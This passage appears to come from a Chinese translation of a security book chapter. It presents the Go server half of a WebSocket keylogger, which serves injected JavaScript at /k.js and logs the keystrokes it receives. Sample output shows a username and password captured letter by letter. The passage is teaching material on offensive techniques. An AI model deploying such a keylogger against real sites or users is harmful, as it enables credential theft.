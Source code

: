 ```go
        _, msg, err := conn.ReadMessage()
        if err != nil {
            return
        }
        fmt.Printf("From %s: %s\n", conn.RemoteAddr().String(), string(msg))
    }
}

func serveFile(w http.ResponseWriter, r *http.Request) {
    w.Header().Set("Content-Type", "application/javascript")
    jsTemplate.Execute(w, wsAddr)
}

func main() {
    r := mux.NewRouter()
    r.HandleFunc("/ws", serveWS)
    r.HandleFunc("/k.js", serveFile)
    log.Fatal(http.ListenAndServe(":8080", r))
}
```

代码 4-9: 按键记录服务 \([https://github.com/blackhat-go/bhg/ch-4/websocket\_keylogger/main.go/](https://github.com/blackhat-go/bhg/ch-4/websocket_keylogger/main.go/)\)

我们有很多东西要讲。首先，请注意正在使用的另一个第三方包 ，`gorilla/websocket` ，用来处理WebSocket的通信。这是一个功能齐全，强大的包，能简化开发工作，像本章前面使用过的 `gorilla/mux`路由。不要忘记先在终端执行 **go get github.com/gorilla/websocket**。

然后定义服务器用到的变量。创建了`websocket.Upgrader`实例，本质上将每个源加到白名单中。这种允许所有的源是典型的糟糕的安全实践，但是对于本例而言，我们将使用它，因为这是个测试实例并运行在本地的工作站上。在实际恶意部署中使用时，可能将源限制为明确的值。

在 `main()` 函数之前自动执行的 `init()` 函数中，定义了命令行参数，并尝试解析Go模板存到 _logger.js_ 文件中。注意调用 `template.ParseFiles("logger.js")` 。检查返回值确保文件被正确地解析。如果一切顺利，那么已经将解析后的模板存储在名为jsTemplate的变量中。

到目前，模板中还没有任何的上下文数据或执行它。不过很快就会的。首先，定义名为 `serveWS()` 的函数，用于处理WebSocket的通信。通过调用 `upgrader .Upgrade(http.ResponseWriter, *http.Request, http.Header)` 创建了一个新的 `websocket.Conn` 实例。`Upgrade()` 方法将HTTP连接升级为使用WebSocket 协议。也就是任何被该函数处理的请求都被升级为使用WebSockets。在 `for` 的无限循环中和连接交互，调用 `conn.ReadMessage()` 来读取收到的消息。如果JavaScript工作正常，这些消息应该含有捕获到的按键。将信息和远程客户端的IP输出。

已经解决了创建WebSocket处理函数中最困难的部分。下一步，创建另一个名为 `serveFile()` 的处理函数。该函数检索并返回JavaScript模板中的内容，并包含上下文数据。为此，设置 `Content-Type` 头为 `application/javascript` 。这样浏览器就知道HTTP响应体中的内容要以JavaScript处理。在该函数的第二行也是最后一行调用 `jsTemplate.Execute(w, wsAddr)` 。还记得启动服务时在 `init()` 函数中是如何解析 _logger.js_ 的吗？把结果存储在 `jsTemplate` 变量中。这行代码就是处理该模板。将 `io.Writer` 类型的参数 （本例中使用的是http.ResponseWriter类型的 w）和 `interface{}` 类型的上下文数据传给该函数。`interface{}` 类型也就是可以传递任何类型的变量，无论是字符串，结构体，还是其他类型。本例中传递的是字符串类型的 `wsAddr`这个变量。如果返回到 `init()` 函数，会看到该变量包含由命令行参数设置的WebSocket服务的地址 。总之，使用数据填充模板并将其作为HTTP响应写入。非常漂亮！

已经完成了 `serveFile()` 和 `serveWS()` 处理函数。现在，只需要配置路由器来执行模式匹配，这样就可以让合适的处理函数继续执行。在 `main()` 中和之前一样，先让两个处理函数匹配 `/ws` URL，执行 `serveWS()` 函数升级WebSocket连接。第二个路由匹配 `/k.js` ，执行 `serveFile()` 函数。这就是服务将渲染好的JavaScript推送个客户端的过程。

让我们启动服务。如果打开HTML文件，应该会有 `connection established` 的信息。这是日志，因为JavaScript文件被浏览器渲染且请求WebSocket连接。如果在表单元素中键入凭证，在服务中会看到下面的输出。

\`\`\`shell script $ go run main.go -listen-addr=127.0.0.1:8080 -ws-addr=127.0.0.1:8080 Connection from 127.0.0.1:58438 From 127.0.0.1:58438: u From 127.0.0.1:58438: s From 127.0.0.1:58438: e From 127.0.0.1:58438: r From 127.0.0.1:58438: From 127.0.0.1:58438: p From 127.0.0.1:58438: @ From 127.0.0.1:58438: s From 127.0.0.1:58438: s From 127.0.0.1:58438: w From 127.0.0.1:58438: o From 127.0.0.1:58438: r From 127.0.0.1:58438: d
